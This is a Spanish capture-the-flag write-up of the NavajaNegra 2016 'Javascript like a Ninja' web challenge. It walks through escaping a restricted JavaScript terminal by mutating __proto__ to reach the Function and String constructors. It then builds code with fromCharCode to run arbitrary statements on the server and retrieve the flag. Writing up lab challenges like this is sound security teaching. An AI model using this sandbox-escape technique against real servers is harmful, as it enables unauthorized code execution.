 # NavajaNegra 2016 – Web 2 – Javascript like a Ninja

Una vez superada la primera prueba, deberíamos haber obtenido las credenciales del administrador MojoJojo.

Así que el primer paso es ‘encontrar’ el panel de login y acceder: http://challenges.ka0labs.org:31337/login

![](img/mojojojo-login.png)

Una vez dentro nos encontramos con un terminal llamado MoJS en el que podemos escribir instrucciones, al parecer en lenguaje JavaScript.

![](img/mojojojo-terminal.png)

Si revisamos el código fuente de la página, podemos encontrar un comentario con información de como utilizar el terminal.

```
Notes:
Ok, with all that languages out there I sometimes forget my own =_=’
Types: only integers to count
Operations: addition with ‘+’
Auxiliar functions: ‘help’
Assign to ‘result’ to see output
```

Con esta información ya deberíamos poder utilizar correctamente la terminal.
Probamos con `result=help;` y obtenemos en pantalla la función help


```
"function () { return execute.toString(); }"
```

Si la ejecutamos con result=help(0); obtenemos el código de la función execute, que es la parte servidor, encargada de recibir las instrucciones que escribimos en el terminal.

![](img/mojojojo-execute.png)

Una vez asimilado el código, vemos como las variables que escribimos en el terminal se guardan en el Objeto scope[sessId], también tenemos la restricción de no poder utilizar comillas y generar una cadena de texto o utilizar el carácter punto para lanzar un método.
Una de las pistas nos recomienda utilizar prototypes y mutar el objeto,
Javascript objects have prototypes. Mutate the scope.
Tras innumerables pruebas, se consigue mutar a diferentes tipos, si mutamos a Function podemos utilizar constructor para crear una función propia.

```
MoJS&gt; __proto__=help;
MoJS&gt; result=constructor;
"function Function() { [native code] }"
MoJS&gt;; result=constructor(123456);
"function anonymous() {\n123456\n}"
```

Incluso somos capaces de ejecutar la función, aunque de momento es una función que no devuelve nada.

```
MoJS&gt; result=constructor(123456)(0);
"undefined"
```

Nuestro siguiente objetivo es generar un String definido por nosotros para incluirlo en una función y poder ejecutar código.

Para ello mutamos a *String* utilizando la siguiente instrucción, es importante no haber mutado antes a Function.

```
MoJS&gt; __proto__=constructor(help(0));
"undefined"
MoJS&gt; result=constructor;
"function String() { [native code] }"
```

Por ultimo, mutamos a la clase String, donde tendremos acceso a la ansiada función fromCharCode.

```
MoJS&gt; result=constructor;
"function Function() { [native code] }"
MoJS&gt; result=fromCharCode;
"function fromCharCode() { [native code] }"
```

Ahora solo nos falta codificar la instrucción JavaScript que queramos ejecutar en el servidor.
Para ello necesitamos convertir nuestra instrucción a una secuencia de valores decimales y concatenarlos después de utilizar fromCharCode en cada uno de ellos. Por último, utilizamos constructor(instruccion)(0); para crear la función y ejecutarla.

```
return Object.keys(this);

114,101,116,117,114,110,32,79,98,106,101,99,116,46,107,101,121,115,40,116,104,105,115,41,59

result=constructor(fromCharCode(114)+fromCharCode(101)+fromCharCode(116)+fromCharCode(117)+fromCharCode(114)+fromCharCode(110)+fromCharCode(32)+fromCharCode(79)+fromCharCode(98)+fromCharCode(106)+fromCharCode(101)+fromCharCode(99)+fromCharCode(116)+fromCharCode(46)+fromCharCode(107)+fromCharCode(101)+fromCharCode(121)+fromCharCode(115)+fromCharCode(40)+fromCharCode(116)+fromCharCode(104)+fromCharCode(105)+fromCharCode(115)+fromCharCode(41)+fromCharCode(59))(0);

"execute,scope,fl4g"
```

Finalmente repetimos el paso anterior y codificamos la instrucción return fl4g; para obtener el flag.

```
return fl4g;
```

Aquí vemos la tres instrucciones necesarias para resolver la prueba

![](img/mojojojo-solucion.png)
